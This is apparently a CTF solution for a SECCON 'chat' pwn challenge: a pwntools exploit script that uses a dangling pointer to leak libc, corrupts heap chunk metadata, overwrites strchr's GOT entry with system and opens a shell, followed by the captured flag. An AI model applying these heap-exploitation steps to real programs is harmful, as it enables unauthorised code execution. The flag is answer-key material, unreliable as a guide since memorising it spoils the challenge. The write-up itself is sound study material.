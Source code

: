 ```python exp_chat.py
    dm("A"*4, "BA") # for creating dangling pointer
    dm("C"*30, "BC")
    signout()

    signin("C"*30)
    tweet("cccc")
    signout()

    signin("B"*4)
    change_name("\t") # invalid, will remove user (user AAAA's DM become dangling pointer)

    signin("C"*30)
    change_name("\t") 

    signup("d"*7)
    signin("d"*7)
    for i in xrange(6,2,-1): # null out the address
        change_name("d"*i)

    malusr = p64(elf.got['__libc_start_main'])
    change_name(malusr) # AAAA's DM's sender->name will pointer to __libc_start_main@got.plt
    signout()

    # leak libc
    signin("A"*4)
    r.sendlineafter(">> ", "2") # show DM, leak libc
    r.recvuntil("[")
    libc.address += u64(r.recv(6).ljust(8,"\x00")) - libc.symbols['__libc_start_main']
    system_addr = libc.symbols['system']

    log.success("libc base: "+hex(libc.address))
    log.success("system: "+hex(system_addr))
    signout()

    # overflow name buf and overwrite an unsortbin chunk's size
    # enlarge the size, so we can overflow the heap buffer and fake some data structure
    signin(malusr)
    change_name("i"*24+p8(0xa1)) # padding + fake size
    tweet("fuck") # will allocate chunk from smallbin
    change_name(p8(0x40)) # make this user into right index
    tweet("7"*16+p64(0x60302a)) # allocate chunk from unsortbin, overwrite data structure. We can now start overwriting memory from 0x60302a

    # start overwriting, we wish to overwrite strchr's got
    change_name("A"*6+"B"*8+p64(system_addr)) # padding + padding + strchr's got (overwrite to system)
    r.sendlineafter(">> ", "sh\x00") # strchr("sh", 10) --> system("sh")

    r.interactive()
```


flag: `SECCON{51mpl3_ch47_l1k3_7w1*73*}`
